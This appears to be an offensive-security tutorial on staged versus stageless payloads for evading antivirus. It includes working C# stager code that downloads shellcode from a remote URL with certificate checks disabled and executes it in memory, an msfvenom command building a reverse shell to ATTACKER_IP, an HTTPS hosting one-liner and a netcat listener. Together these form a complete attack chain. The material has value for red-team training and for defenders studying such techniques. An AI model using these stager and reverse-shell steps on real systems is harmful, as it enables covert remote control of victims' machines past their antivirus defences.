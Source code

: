 # Staged vs. Stageless Payloads

When attempting to bypass antivirus (AV) solutions, two main approaches exist for delivering shellcode to a victim: **staged** and **stageless** payloads. This guide explains the differences, advantages, and use cases for each method.

---

## Stageless Payloads

A **stageless payload** embeds the final shellcode directly within itself. Think of it as a packaged application that executes the shellcode in a single step.

**Example:**  
An executable embedding a simple shellcode (e.g., launching Calculator) is a stageless payload.

**How it works:**  
When the user runs the payload, the embedded shellcode executes immediately, such as providing a reverse shell to the attacker.

**Advantages:**
- All required code is packed into a single executable.
- No additional network connections are needed, reducing detection risk.
- Ideal for environments with restricted network connectivity.

---

## Staged Payloads

**Staged payloads** use intermediary shellcodes (stagers) to retrieve and execute the final shellcode.

**How it works:**
- The first stage (stage0) is a small stub that connects back to the attacker's machine to download the final shellcode.
- Once downloaded, stage0 injects the shellcode into memory and executes it.

**Advantages:**
- Small disk footprint (stage0 is minimal).
- If captured, defenders only get the stub, not the final shellcode.
- The final shellcode runs in memory and never touches disk, making detection harder.
- The same stage0 dropper can be reused for different shellcodes.

---

## Choosing Between Staged and Stageless

- **Stageless payloads** are better for environments with strict perimeter security or limited network access (e.g., USB drop attacks in closed networks).
- **Staged payloads** are ideal when minimizing on-disk footprint and avoiding detection by running the final payload in memory.

---

## Stagers in Metasploit

When using `msfvenom` or Metasploit, you can choose staged or stageless payloads. The naming convention helps distinguish them:

| Payload Name                        | Type            |
|------------------------------------- |-----------------|
| `windows/x64/shell_reverse_tcp`      | Stageless       |
| `windows/x64/shell/reverse_tcp`      | Staged          |

For Meterpreter:
- Stageless: `windows/x64/meterpreter_reverse_tcp`
- Staged: `windows/x64/meterpreter/reverse_tcp`

---

## Creating Your Own Stager

To create a staged payload, you can use a C# stager that downloads and executes shellcode from a remote server.

**Key Windows API Functions (via P/Invoke):**
- `VirtualAlloc()`: Reserves memory for shellcode.
- `CreateThread()`: Creates a new thread to run the shellcode.
- `WaitForSingleObject()`: Waits for the thread to finish.

**Example C# Imports:**
```csharp
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

**Stager Logic:**
1. Download shellcode from a URL using `WebClient`.
2. Allocate executable memory with `VirtualAlloc()`.
3. Copy shellcode into allocated memory.
4. Create a thread to execute the shellcode.
5. Wait for the thread to finish.

**Sample Code:**
```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);

UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

**Compile the Stager:**
```powershell
PS C:\> csc staged-payload.cs
```

---

## Using the Stager to Run a Reverse Shell

1. **Generate Shellcode:**
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
    ```

2. **Create a Self-Signed Certificate:**
    ```bash
    openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
    ```

3. **Start an HTTPS Server:**
    ```bash
    python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
    ```

4. **Set Up a Netcat Listener:**
    ```bash
    nc -lvp 7474
    ```

5. **Run the Stager on the Victim Machine:**  
    The stager will connect to the HTTPS server, download `shellcode.bin`, and execute it in memory.

---

**Note:**  
Always use these techniques in authorized environments and for educational or professional purposes only.

